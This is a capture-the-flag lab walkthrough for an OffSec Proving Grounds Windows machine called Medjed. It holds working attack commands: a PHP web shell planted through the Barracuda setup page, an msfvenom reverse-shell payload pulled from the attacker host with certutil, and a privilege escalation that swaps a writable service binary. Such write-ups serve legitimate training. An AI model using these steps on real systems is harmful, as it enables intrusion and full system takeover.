 # Medjed

## Intro

Medjed is an intermediate windows machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3306/tcp  open  mysql?        syn-ack ttl 125
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
8000/tcp  open  http-alt      syn-ack ttl 125 BarracudaServer.com (Windows)
30021/tcp open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta
33033/tcp open  unknown       syn-ack ttl 125
44330/tcp open  ssl/unknown   syn-ack ttl 125
45332/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
45443/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## User

After browsing to port 8000, barracuda is asking for a first time admin set up.

Create a php one liner.

```
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
```

Upload to the following directory using barracuda.

```
C:\xampp\htdocs
```

Execute a system command.

```
http://192.168.157.127:45332/shell.php?cmd=whoami
```

Create the shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.166 LPORT=5040 -f exe > shell.exe
```

Upload the shell.

```
http://192.168.157.127:45332/shell.php?cmd=certutil%20-urlcache%20-split%20-f%20http://192.168.45.166:8000/shell.exe%20%20C:\Users\Jerren\Desktop\shell.exe
```

After executing, a shell is received as jerren.

## Admin

We have read/write access to the barracuda binary.

Move the binary.

```
move C:\bd\bd.exe .
```

Copy another msfvenom shell to the directory.

```
copy /Y admin.exe C:\bd\bd.exe
```

Restart.

```
shutdown /r
```
